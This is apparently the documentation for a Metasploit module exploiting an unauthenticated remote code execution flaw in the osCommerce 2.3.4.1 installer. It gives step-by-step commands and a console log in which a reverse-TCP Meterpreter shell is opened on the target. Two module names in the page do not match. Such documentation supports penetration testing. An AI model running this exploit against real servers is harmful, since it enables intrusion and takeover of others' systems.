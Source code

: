 ## Vulnerable Application

osCommerce version 2.3.4.1 is vulnerable to remote code execution. If the `/install/` directory was not removed, it is possible for an unauthenticated attacker to run the `install_4.php` script, which will create the configuration file for the installation. This allows the attacker to inject PHP code into the configuration file and execute it.

## Verification Steps

  1. Download and install [osCommerce 2.3.4.1](https://www.exploit-db.com/apps/ce2796b352d6e0fb4e9f03866ae98541-oscommerce-2.3.4.zip)
  2. `use exploit/multi/http/oscommerce`
  3. `set RHOST IP`
  4. `set PAYLOAD php/meterpreter/reverse_tcp`
  5. `set LHOST IP`
  6. `exploit`
  7. **Verify** a new Meterpreter session is started

## Scenarios

### osCommerce version 2.3.4.1 on Debian

```
msf > use exploit/multi/http/oscommerce_installer_unauth_code_exec
msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > set RHOST 172.16.40.188
RHOST => 172.16.40.188
msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > set LHOST 172.16.40.5
LHOST => 172.16.40.5
msf exploit(multi/http/oscommerce_installer_unauth_code_exec) > exploit 

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Sending stage (37543 bytes) to 172.16.40.188
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.188:47466) at 2018-04-05 18:14:45 +0100

meterpreter > sysinfo 
Computer    : oscommerce
OS          : Linux oscommerce 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u2 (2017-03-07) x86_64
Meterpreter : php/linux
meterpreter > 
```
